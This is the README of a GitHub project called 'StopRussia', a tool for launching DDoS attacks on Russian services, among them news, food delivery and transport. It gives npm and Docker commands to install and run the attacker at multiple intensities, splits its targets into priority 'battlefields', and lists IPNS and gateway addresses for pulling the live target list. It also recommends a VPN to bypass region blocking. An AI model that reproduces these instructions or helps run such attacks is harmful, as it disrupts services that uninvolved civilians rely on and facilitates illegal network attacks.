

# StopRussia

[](https://stoprussia.0x77.dev)

### [Support the Ukraine 🇺🇦](https://savelife.in.ua/)

**Russia MUST BE STOPPED!**
This repository contains a set of tools to attack russian services such as news, food delivery, transport and more for both technical and non-technical kind of persons

List is updated once a hour according to: `IT Army of Ukraine` and `ddos котики` Ukrainian communities 

## How to get started?

First of all, do not do this at full power from Ukrainian providers, this can harm the connectivity of other people with the world by taking down providers if a lot of people will do this simultaneously.

Also you need to use a VPN if you running this on your local machine, because many of the services uses region blocking to not accept requests from Ukraine

[ClearVPN](https://my.clearvpn.com/promo/redeem?code=SAVEUKRAINE) is a good choice, use can use promo-code `SAVEUKRAINE` to get free access for a year

### Web browser

You can use web tool to start DDoS on russian services: https://stoprussia.0x77.dev

### CLI

[Install Node.js >=16](https://nodejs.org/en/)

```console
npm i -g stoprussia autocannon
stoprussia
```

#### Running in war mode

```console
stoprussia -p -t 2 -b 4
```

or

```console
stoprussia -p -t 2 -b 3
```

#### Choosing battlefield

```console
stoprussia -b 4
```

#### Running in power mode
Do not use it Ukraine! This mode requires a lot of network throughput
This mode multiplies threads by 2

```console
stoprussia -p -t 2
```

### Docker

[Install Docker](https://docs.docker.com/get-docker/)

Single instance:

```console
docker run -it ghcr.io/0x77dev/stoprussia:main
```

Running multiple instances:

```console
docker run -t ghcr.io/0x77dev/stoprussia:main -b 1 &
docker run -t ghcr.io/0x77dev/stoprussia:main -b 2 &
docker run -t ghcr.io/0x77dev/stoprussia:main -b 3 &
docker run -t ghcr.io/0x77dev/stoprussia:main -b 4
```


### More coming soon

More performant desktop, docker and kubernetes versions coming soon...

## Choosing battlefield

The list of targets are split into 4 chunks each chunk called battlefield

Battlefield 1: passive attack and low priority services

Battlefield 2: passive attack and medium priority services

Battlefield 3: active attack and medium priority services

Battlefield 4: active attack and high priority services


Battlefield 3 and 4 is the main focus to DDoS

## How can I get the list of targets?

Targets list are distributed over IPFS

You get it by resolving IPNS name
```
ipns://srl.0x77.dev
```

by requesting Cloudflare Gateway:

```
https://srl.0x77.dev
``` 

or by requesting Cloudflare Gateway directly:

```
https://cloudflare-ipfs.com/ipns/srl.0x77.dev
```

or by requesting public IPFS gateway:

```
https://ipfs.io/ipns/srl.0x77.dev
```
